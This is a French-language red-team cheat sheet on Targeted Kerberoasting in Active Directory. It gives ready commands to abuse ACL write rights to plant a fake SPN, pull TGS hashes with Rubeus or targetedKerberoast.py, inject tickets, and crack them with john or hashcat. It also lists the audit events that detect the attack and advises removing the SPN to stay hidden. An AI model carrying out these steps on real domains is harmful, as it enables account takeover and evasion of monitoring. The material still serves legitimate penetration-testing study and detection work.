

Ce flux représente la chaîne d'attaque du **Targeted Kerberoasting** exploitant des droits ACL pour forcer la création d'un **SPN**.



## Prérequis

*   Accès à un compte utilisateur **Active Directory** avec des privilèges d'écriture sur un autre compte via des **ACL**.
*   Outils nécessaires : **PowerView**, **Rubeus**, **targetedKerberoast.py**.

> [!note] Synchronisation horaire
> La synchronisation horaire est critique pour **Kerberos**. Un décalage supérieur à 5 minutes entre la machine attaquante et le **DC** empêchera la validation des tickets.

## Identification des comptes vulnérables

Utilisation de **PowerView** pour vérifier les attributs :

```powershell
Get-DomainUser -Identity <user> -Properties servicePrincipalName
```

Utilisation de **BloodHound** pour identifier les chemins d'attaque :
*   Importer les données et repérer les droits `GenericWrite` ou `WriteProperty` sur des objets utilisateurs.

## Stratégies de mots de passe (AS-REP Roasting vs Kerberoasting)

Il est crucial de distinguer ces deux vecteurs d'attaque lors de l'énumération **Active Directory** :

| Caractéristique | AS-REP Roasting | Kerberoasting |
| :--- | :--- | :--- |
| **Cible** | Comptes avec `DONT_REQ_PREAUTH` | Comptes avec **SPN** défini |
| **Ticket** | AS-REQ / AS-REP | TGS-REQ / TGS-REP |
| **Prérequis** | Aucun (ou accès réseau) | Accès réseau + compte valide |
| **Persistance** | Très faible (attribut utilisateur) | Faible (SPN ajouté) |

*   **AS-REP Roasting** : Ne nécessite pas de compte valide si la pré-authentification est désactivée.
*   **Kerberoasting** : Nécessite un compte valide pour demander le ticket **TGS** au **DC**.

## Création d'un SPN (Abus ACL)

L'objectif est d'ajouter un **SPN** à un compte cible pour permettre la demande d'un ticket **TGS**.

Via **PowerView** :

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\User', $SecPassword)

Set-DomainObject -Credential $Cred -Identity <target_user> -SET @{serviceprincipalname='fake/service'}
```

> [!danger] Risque de détection
> Le changement d'objet **AD** déclenche l'événement d'audit 4738. Cette action est hautement surveillée par les solutions **SIEM**.

Via **targetedKerberoast.py** :

```bash
python targetedKerberoast.py -u "<user>" -p "<password>" -d "<domain>" --dc-ip <DC_IP>
```

## Récupération du Ticket TGS

Avec **Rubeus** :

```powershell
Rubeus.exe kerberoast /user:<target_user> /domain:<domain> /dc:<DC_IP>
```

Avec **targetedKerberoast.py** :
*   Le hash est extrait automatiquement lors de l'exécution du script.

## Gestion des tickets (Pass-the-Ticket)

Une fois le hash cracké, si le mot de passe appartient à un compte privilégié, il est possible d'utiliser le ticket obtenu ou de se connecter directement. Si vous avez extrait un ticket **TGS** complet (via `/export` dans **Rubeus**), vous pouvez injecter le ticket en mémoire :

```powershell
Rubeus.exe ptt /ticket:C:\Temp\ticket.kirbi
```

Cette technique permet d'usurper l'identité de l'utilisateur sans connaître son mot de passe en clair, en exploitant la validité temporelle du ticket **Kerberos**.

## Crack du Hash

Utilisation de **john** :

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt <hash_file>
```

Utilisation de **hashcat** avec le mode **-m 13100** :

```bash
hashcat -m 13100 -a 0 <hash_file> /usr/share/wordlists/rockyou.txt
```

## Analyse des risques (détection EDR/SIEM)

Le **Targeted Kerberoasting** génère des signaux faibles spécifiques :

*   **Audit ID 4738** : Modification d'un compte utilisateur (ajout de **SPN**).
*   **Audit ID 4769** : Demande de service **Kerberos** (TGS). Un volume anormal de demandes pour des comptes peu utilisés est un indicateur fort.
*   **Comportement Rubeus** : L'utilisation de **Rubeus.exe** est détectée par la plupart des **EDR** via le scan de mémoire ou l'analyse des arguments de ligne de commande.
*   **Recommandation** : Surveiller les comptes possédant des droits `GenericWrite` sur des objets utilisateurs et auditer les changements fréquents sur l'attribut `servicePrincipalName`.

## Nettoyage

> [!warning] Nettoyage indispensable
> Le nettoyage du **SPN** est indispensable pour la discrétion et éviter de laisser des indicateurs de compromission persistants.

Suppression du **SPN** via **PowerView** :

```powershell
Set-DomainObject -Credential $Cred -Identity <target_user> -Clear serviceprincipalname
```

## Points Clés à Retenir

*   Le **Targeted Kerberoasting** exploite des droits **ACL** sur des comptes sans **SPN** initialement configuré.
*   Cette technique est une variante du **Kerberoasting** classique, utilisant **PowerView** ou **BloodHound** pour identifier les cibles.
*   L'utilisation de **Rubeus** permet une interaction directe avec le protocole **Kerberos** pour extraire les **TGT** ou **TGS**.
*   Le maintien de la discrétion repose sur la suppression des modifications apportées aux attributs des objets **Active Directory**.